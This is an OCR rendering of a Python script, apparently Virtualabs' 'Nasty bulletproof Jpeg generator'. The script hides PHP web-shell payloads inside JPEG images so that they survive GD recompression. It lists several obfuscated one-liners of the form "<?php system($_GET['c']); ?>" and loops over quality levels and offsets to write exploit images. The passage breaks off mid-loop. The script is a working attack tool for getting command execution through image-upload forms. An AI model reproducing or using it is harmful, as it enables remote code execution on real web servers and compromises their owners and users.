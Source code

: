 ```
		_out.write(img[:sod+sos+off]+payload+img[sod+sos+len(payload)+off:])
		return True
	else:
		return False

if __name__=='__main__':

	print "[+] Virtualabs' Nasty bulletproof Jpeg generator"
	print " |  website: http://virtualabs.fr"
	print " |  contact: virtualabs -at- gmail -dot- com"
	print ""

	payloads = ["<?php system(/**/$_GET['c'/**/]); ?>","<?php /**/system($_GET[chr(99)/**/]); ?>","<?php system(/**/$_GET[chr(99)]); ?>","<?php\r\nsystem($_GET[/**/'c']);\r\n ?>"]

	# make sure the exploit-jpg directory exists or create it
	if os.path.exists('exploit-jpg') and not os.path.isdir('exploit-jpg'):
		print "[!] Please remove the file named 'exploit-jpg' from the current directory"
	elif not os.path.exists('exploit-jpg'):
		os.mkdir('exploit-jpg')

	# start generation
	print '[i] Generating ...'
	for q in range(50,100)+[-1]:
		# loop over every payload		
		for p in payloads:
			# not done yet
			done = False
			start = time()
			# loop while not done and timeout not reached
			while not done and (time()-start)<10.0:

				# we create a NxN pixels image, true colors
				img = gd.image((N,N),True)
				# we create a palette
				pal = []
				for i in range(N*N):
					pal.append(img.colorAllocate((randint(0,256),randint(0,256),randint(0,256))))
				# we shuffle this palette
				shuffle(pal)
				# and fill the image with it			
				pidx = 0
				for x in  range(N):
					for y in range(N):
						img.setPixel((x,y),pal[pidx])
						pidx+=1

				# write down the image
				out_jpg = StringIO('')
				img.writeJpeg(out_jpg,q)
				out_raw = out_jpg.getvalue()

				# now, we try to insert the payload various ways
				for i in range(64):
					test_jpg = StringIO('')
					if insertPayload(out_raw,test_jpg,p,i):
						try:
							# write down the new jpeg file
							f = open('exploit-jpg/exploit-%d.jpg'%q,'wb')
							f.write(test_jpg.getvalue())
							f.close()

							# load it with GD
```